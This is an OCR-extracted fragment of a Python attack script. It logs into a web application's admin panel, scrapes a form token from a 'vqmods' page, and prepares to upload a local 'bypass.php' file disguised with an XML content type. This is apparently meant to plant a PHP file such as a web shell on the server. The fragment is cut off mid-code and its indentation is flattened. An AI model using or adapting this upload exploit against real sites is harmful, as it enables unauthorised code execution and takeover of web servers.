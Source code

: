 	sys.exit("-h for help")

	url = args.t

	user = args.u

	password = args.p


	br = mechanize.Browser()

	cookiejar = cookielib.LWPCookieJar()

	br.set\_cookiejar( cookiejar )

	br.set\_handle\_equiv( True )

	br.set\_handle\_redirect( True )

	br.set\_handle\_referer( True )

	br.set\_handle\_robots( False )

	br.addheaders = \[ ( 'User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1' ) \]

	response = br.open(url)

	br.select\_form(name="login\_form")

	br\["username"\] = user

	br\["password"\] = password

	res = br.submit()

	response = br.open(url + "?app=vqmods&doc=vqmods")

	one=""

	for form in br.forms():

	one= str(form).split("(")

	one= one\[1\].split("=")

	one= one\[1\].split(")")

	one = one\[0\]

	cookies = br.\_ua\_handlers\['\_cookies'\].cookiejar

	cookie\_dict = {}

	for c in cookies:

	cookie\_dict\[c.name\] = c.value

	bypass = open('bypass.php', 'r').read()


	files = {

	'vqmod': ("mybypass.php", bypass, "application/xml"),

	'token':one,
